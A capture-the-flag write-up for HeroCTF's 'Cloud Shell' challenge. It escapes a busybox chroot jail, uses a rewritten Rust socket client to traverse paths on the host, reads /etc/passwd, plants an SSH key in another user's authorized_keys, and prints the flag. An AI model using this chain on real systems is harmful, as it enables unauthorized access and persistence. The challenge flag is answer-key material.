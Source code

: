 # Cloud Shell

### Category

System

### Desription

Cloud cloud cloud... always cloud, but with an access to a shell ? Such a great idea ! :D

Credentials: `restricted:restricted`

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Worty**

### Write Up

This challenge is about jail and communication with the host. When we arrive on the SSH instance, we see that a few folders are accessible, we are in a chroot jail.

We have the following binaries :

```sh
$ ls /bin
cat    cloud_cat    cloud_create    cloud_list    cloud_mv    ls    sh
```

As the challenge is using busybox, we can bypass the binary restriction using the following exploit :

```sh
$ sh -c 'exec -a "whoami" /bin/ls'
restricted
```

Something weird is that all cloud_* binaries as the same size, in fact, they are the same binary. The original binary is just using argv[0] to resolve the function that must be executed.

If we recover locally one of the cloud_* binary, we can see that checks are implemented in the client and that the challenge is using (inside the jail), the socket `/dev/cloud_socket` to communicate with the host.

Here there are two ways of solving the chall :
    - Reverse the binary to understand how he communicates
    - Use socat and create a fake file `/dev/cloud_socket` on your local machine to intercept messages sent.

After that, we can recompile something like this in order to remove the checks :

```rust
use std::env;
use std::io::{self, Read, Write};
use std::os::unix::net::UnixStream;
use std::path::Path;

const SOCKET_PATH: &str = "/dev/cloud_socket";

fn send_tlv_message(stream: &mut UnixStream, tlv_type: u8, value: &[u8]) -> io::Result<()> {
    let length = value.len() as u8;
    let mut message = Vec::new();
    message.push(tlv_type);
    message.push(length);
    message.extend_from_slice(value);

    stream.write_all(&message)?;
    Ok(())
}

fn receive_response(stream: &mut UnixStream) -> io::Result<String> {
    let mut size_buffer = [0u8; 8];
    stream.read_exact(&mut size_buffer)?;
    let message_size = u64::from_be_bytes(size_buffer);

    let mut buffer = vec![0; message_size as usize];
    stream.read_exact(&mut buffer)?;

    Ok(String::from_utf8_lossy(&buffer).to_string())
}

fn cloud_list() -> io::Result<()> {
    let mut stream = UnixStream::connect(SOCKET_PATH)?;
    send_tlv_message(&mut stream, 1, &[])?;
    let response = receive_response(&mut stream)?;
    println!("{}", response);
    Ok(())
}

fn cloud_cat(file_name: &str) -> io::Result<()> {
    let mut stream = UnixStream::connect(SOCKET_PATH)?;
    send_tlv_message(&mut stream, 2, file_name.as_bytes())?;
    let response = receive_response(&mut stream)?;
    println!("{}", response);
    Ok(())
}

fn cloud_mv(old_name: &str, new_name: &str) -> io::Result<()> {
    let mut stream = UnixStream::connect(SOCKET_PATH)?;
    let mut value = Vec::new();
    value.extend_from_slice(old_name.as_bytes());
    value.push(0); // Délimiteur NULL
    value.extend_from_slice(new_name.as_bytes());
    send_tlv_message(&mut stream, 3, &value)?;
    let response = receive_response(&mut stream)?;
    println!("{}", response);
    Ok(())
}

fn cloud_create(file_name: &str, content: &str) -> io::Result<()> {
    let mut stream = UnixStream::connect(SOCKET_PATH)?;
    let mut value = Vec::new();
    value.extend_from_slice(file_name.as_bytes());
    value.push(0); // Délimiteur NULL
    value.extend_from_slice(content.as_bytes());
    send_tlv_message(&mut stream, 4, &value)?;
    let response = receive_response(&mut stream)?;
    println!("{}", response);
    Ok(())
}

fn main() -> io::Result<()> {
    // Récupérer le nom du programme (ARGV[0])
    let program_name = env::args().next().unwrap();
    let program_name = Path::new(&program_name)
        .file_name()
        .unwrap()
        .to_string_lossy();

    let args: Vec<String> = env::args().skip(1).collect();

    match program_name.as_ref() {
        "cloud_list" => {
            // Lister le répertoire, aucun argument supplémentaire nécessaire
            cloud_list()
        }
        "cloud_cat" => {
            if args.len() != 1 {
                eprintln!("Usage: cloud_cat <file_name>");
                return Ok(());
            }
            cloud_cat(&args[0])
        }
        "cloud_mv" => {
            if args.len() != 2 {
                eprintln!("Usage: cloud_mv <old_name> <new_name>");
                return Ok(());
            }
            cloud_mv(&args[0], &args[1])
        }
        "cloud_create" => {
            if args.len() != 2 {
                eprintln!("Usage: cloud_create <file_name> <content>");
                return Ok(());
            }
            cloud_create(&args[0], &args[1])
        }
        _ => {
            eprintln!("Méthode inconnue : {}", program_name);
            Ok(())
        }
    }
}
```

We can download this file suing `wget` on the remote instance with the busybox bypass. To verify that this work, we can try to read `/etc/passwd` of the host (note that binaries called below are the compiled version of the above code) :

```
$ ./cloud_cat ../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
gaoler:x:1000:1000:Linux User,,,:/home/gaoler:/bin/sh
restricted:x:1001:1001:Linux User,,,:/home/restricted:/bin/jail
```

So we can read arbitrary files. But we can also create arbitrary files :

```
$ ./cloud_create ../../../../../../tmp/test "test bypass"
File ../../../../../../tmp/test created
$ ./cloud_cat ../../../../../tmp/test
```

As we can create arbitrary files, and we know that a "gaoler" user exists, we can write our ssh-key in his home :

```
$ ./cloud_create ../../../../../../home/gaoler/.ssh/authorized_keys "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGW6pwqNYvzdAtXjf4XJxu9xtdu3tvhumfQr63moxgZ5"
```

We can now ssh as gaoler :

```
$ ssh gaoler@instance -i id_chall
(ssh) $ ls /
[...]
getthatsuperflag
[...]
(ssh) $ /getthatsuperflag
HERO{y0u_3sc4p3_fr0m_cl0ud_sh3ll_06b0c69c3a3ec4a56e761056a9e70d09}
```

### Flag

HERO{y0u_3sc4p3_fr0m_cl0ud_sh3ll_06b0c69c3a3ec4a56e761056a9e70d09}
